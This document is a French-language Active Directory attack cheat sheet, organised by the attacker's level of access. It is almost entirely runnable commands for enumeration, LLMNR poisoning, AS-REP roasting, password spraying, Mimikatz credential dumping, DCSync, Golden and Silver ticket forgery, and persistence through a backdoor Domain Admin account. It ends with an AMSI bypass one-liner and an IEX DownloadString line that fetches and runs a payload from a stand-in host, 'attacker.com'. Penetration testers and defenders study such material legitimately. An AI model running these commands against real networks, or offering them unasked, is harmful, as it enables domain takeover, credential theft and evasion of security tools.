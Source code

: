 # Stratégies d'attaque Active Directory selon le niveau d'accès
## Sans credentials
### Découverte réseau et énumération initiale
```bash
# Découverte d'hôtes actifs
fping -asgq 192.168.1.0/24
nmap -sn 192.168.1.0/24

# Identification des contrôleurs de domaine
nmap -p 389,636,3268,3269,88,53,445 --open 192.168.1.0/24
```
### Exploitation des services anonymes
#### LDAP anonyme
```bash
# Vérifier si l'accès anonyme est autorisé
ldapsearch -x -h 192.168.1.10 -p 389 -b "dc=domain,dc=local" -s sub "(objectclass=*)"

# Extraire des informations sur le domaine
ldapsearch -x -h 192.168.1.10 -p 389 -b "dc=domain,dc=local" -s base "objectclass=*"
```
#### SMB anonyme
```bash
# Énumération des partages accessibles
smbmap -H 192.168.1.10 -u '' -p ''
smbclient -N -L //192.168.1.10

# Accès aux partages sans authentification
smbclient -N //192.168.1.10/SYSVOL
```
### Empoisonnement LLMNR/NBT-NS
```bash
# Lancement de Responder
sudo responder -I eth0 -wfv

# Craquage des hashes capturés
hashcat -m 5600 hashes.txt wordlist.txt
```
### Exploitation des services web
```bash
# Découverte des portails web
nmap -p 80,443,8080,8443 --open 192.168.1.0/24

# Fuzzing des sous-domaines
wfuzz -u http://domain.local -H "Host: FUZZ.domain.local" -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-5000.txt --hw 26
```
## Avec un accès initial (assumed breach)
### Énumération post-compromission
```powershell
# Informations sur l'utilisateur actuel
whoami /all

# Énumération du domaine avec PowerView
Import-Module .\PowerView.ps1
Get-Domain
Get-DomainController
Get-DomainPolicy | select -ExpandProperty SystemAccess
```
### Recherche de privilèges et accès
```powershell
# Recherche d'accès administrateur local
Find-LocalAdminAccess

# Recherche de sessions utilisateurs
Find-DomainUserLocation | select UserName,SessionFromName

# Recherche de partages intéressants
Find-DomainShare -CheckShareAccess
```
### Collecte avec BloodHound
```powershell
# Exécution de SharpHound
Import-Module .\SharpHound.ps1
Invoke-BloodHound -CollectionMethod All

# Depuis Linux avec un compte compromis
bloodhound-python -u user -p 'password' -d domain.local -c All -ns 192.168.1.10
```
### Exploitation des ACLs
```powershell
# Recherche d'ACLs exploitables pour l'utilisateur actuel
$sid = Convert-NameToSid "username"
Get-DomainObjectACL -ResolveGUIDs | ? {$_.SecurityIdentifier -eq $sid}
```
## Avec un username mais pas de mot de passe
### AS-REP Roasting
```bash
# Identification des comptes sans pré-authentification Kerberos
GetNPUsers.py domain.local/ -dc-ip 192.168.1.10 -request -format hashcat

# Craquage des hashes
hashcat -m 18200 hashes.txt wordlist.txt
```
### Password Spraying
```bash
# Avec Kerbrute (méthode discrète)
kerbrute passwordspray -d domain.local --dc 192.168.1.10 users.txt 'Spring2023!'

# Avec CrackMapExec
crackmapexec smb 192.168.1.10 -u users.txt -p 'Spring2023!' --continue-on-success
```
### Recherche de mots de passe dans des sources publiques
```bash
# Vérification des fuites de données
curl -s https://haveibeenpwned.com/api/v3/breachedaccount/user@domain.com

# Recherche sur GitHub et Pastebin
# Utiliser des outils comme trufflehog ou gitleaks
```
## Avec un mot de passe mais pas d'username
### Bruteforce d'utilisateurs
```bash
# Avec Kerbrute
kerbrute userenum -d domain.local --dc 192.168.1.10 userlist.txt

# Avec SMB
crackmapexec smb 192.168.1.10 -u userlist.txt -p 'KnownPassword' --continue-on-success
```
### Énumération RID
```bash
# Avec rpcclient
rpcclient -U "" -N 192.168.1.10
rpcclient $> enumdomusers

# Avec impacket
lookupsid.py 'anonymous:@192.168.1.10'
```
### Vérification des conventions de nommage
```bash
# Génération de listes d'utilisateurs basées sur des modèles
# Exemple: prénom.nom, p.nom, pnom, etc.
for name in $(cat names.txt); do
  echo "${name}" >> userlist.txt
  echo "${name:0:1}.${name}" >> userlist.txt
  echo "${name:0:1}${name}" >> userlist.txt
done
```
## Scénario post-exploitation
### Extraction de credentials
```powershell
# Mimikatz
Invoke-Mimikatz -Command '"sekurlsa::logonpasswords"'

# Dump des hashes SAM
reg save HKLM\SAM sam.save
reg save HKLM\SYSTEM system.save
reg save HKLM\SECURITY security.save
```
### Élévation de privilèges via DCSync
```powershell
# Vérification des droits DCSync
Get-ObjectAcl "DC=domain,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get') }

# Exécution de DCSync
Invoke-Mimikatz -Command '"lsadump::dcsync /domain:domain.local /user:krbtgt"'
secretsdump.py -just-dc domain.local/user:password@192.168.1.10
```
### Création de Golden/Silver Tickets
```powershell
# Golden Ticket
Invoke-Mimikatz -Command '"kerberos::golden /domain:domain.local /sid:S-1-5-21-X-Y-Z /rc4:HASH_OF_KRBTGT /user:FakeAdmin /id:500 /ptt"'

# Silver Ticket
Invoke-Mimikatz -Command '"kerberos::golden /domain:domain.local /sid:S-1-5-21-X-Y-Z /rc4:HASH_OF_COMPUTER_ACCOUNT /user:FakeAdmin /service:cifs /target:server.domain.local /ptt"'
```
### Persistance
```powershell
# Ajout d'un utilisateur au groupe Domain Admins
Add-DomainGroupMember -Identity 'Domain Admins' -Members 'backdooruser'

# Création d'un compte machine avec délégation
New-MachineAccount -MachineAccount "PERSISTENCE$" -Password $(ConvertTo-SecureString 'Password123!' -AsPlainText -Force)
Set-ADComputer -Identity "PERSISTENCE$" -TrustedForDelegation $true
```
### Évasion des détections
```powershell
# Contournement d'AMSI
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)

# Exécution en mémoire
IEX (New-Object Net.WebClient).DownloadString('http://attacker.com/payload.ps1')

# Utilisation de canaux de communication alternatifs
# DNS, ICMP, etc.
```
